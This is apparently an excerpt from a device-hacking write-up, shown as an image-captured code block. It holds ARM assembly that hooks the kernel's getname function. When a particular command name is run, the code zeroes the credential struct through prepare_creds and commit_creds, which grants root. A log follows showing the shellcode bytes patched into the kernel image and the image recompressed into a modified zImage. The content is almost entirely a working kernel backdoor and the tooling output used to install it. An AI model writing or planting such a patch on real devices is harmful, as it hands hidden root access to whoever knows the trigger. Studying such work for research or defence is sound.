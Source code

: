```bash
        // Do the call to getname since we're hijacking that bl 
        BL   #0xffe5ede0

        // R0 is our return, we should store that somewhere
        MOV  r10, r0
        LDR  r6, =0x803c4960
        ADD  r0, r0, 2  //Remove first two chars, "./" from the command...

        start:
            LDRB r2, [r0], #1  // Load a byte from the first string into r2 and increment r0
            LDRB r3, [r6], #1  // Load a byte from the second string into r3 and increment r1
            CMP r2, r3         // Compare the two bytes
            BNE end            // Branch to not_equal if they are not the same
            CMP r2, #0         // Check if we've hit the null terminator
            BNE start          // If not, loop back and continue comparing
            // If we get here, strings are equal
        strings_equal:
            // Handle the strings being equal
            MOV r0, #0           // We must call prepare_creds with a NULL
            BL   #0xffde3384
            MOV r1, #0           // We want to load zero into r1
            STR r1, [r0, #4]     // Write zero to offset 4 into the cred struct
            STR r1, [r0, #8]     // ...
            STR r1, [r0, #12]    // ...
            STR r1, [r0, #16]    // ...
            STR r1, [r0, #20]    // ...
            STR r1, [r0, #24]    // ...
            STR r1, [r0, #28]    // ...
            STR r1, [r0, #32]    // Write zero to offset 32 into the cred struct
            BL   #0xffde34e0

        end:
        // Restore the result of getname so we can return that
        MOV r0, r10
        // Return
        POP    {r4, r5, r6, r7, r8, r9, r10, pc}
        
[+] Writing to offset: 2442700 (0x2545cc)
00000000  04 e0 2d e5 04 f0 9d e4 f0 47 2d e9 73 7b f9 eb   |..-......G-.s{..|
00000010  00 a0 a0 e1 50 60 9f e5 02 00 80 e2 01 20 d0 e4   |....P`....... ..|
00000020  01 30 d6 e4 03 00 52 e1 0d 00 00 1a 00 00 52 e3   |.0....R.......R.|
00000030  f9 ff ff 1a 00 00 a0 e3 d1 8c f7 eb 00 10 a0 e3   |................|
00000040  04 10 80 e5 08 10 80 e5 0c 10 80 e5 10 10 80 e5   |................|
00000050  14 10 80 e5 18 10 80 e5 1c 10 80 e5 20 10 80 e5   |............ ...|
00000060  1e 8d f7 eb 0a 00 a0 e1 f0 87 bd e8 60 49 3c 80   |............`I<.|
patch_addr:    0x9acc, 0x80011acc
[+] Writing to offset: 39628 (0x9acc)
00000000  c0 2a 09 eb                                       |.*..|
[+] Compressing kernel from zImage
[+] Compressing kernel from extracted_kernel.patched > vmlinux_recompressed.gz
Original gz size: 2415607, new size: 2415591
00000000  00 00 00 00 00 00 00 00 00 00 00 00 00 5f 23 25   |............._#%|
00000010  00 a8 23 25 00 68 47 00 00 ac 23 25 00 a4 23 25   |..#%.hG...#%..#%|
00000020  00 78 08 00 00 9c 23 25 00 98 23 25 00 a0 23 25   |.x....#%..#%..#%|
00000030  00 00 00 00 00 00 00 00 00                        |.........|
[+] Kernel compressed and patched into zImage_patched
```
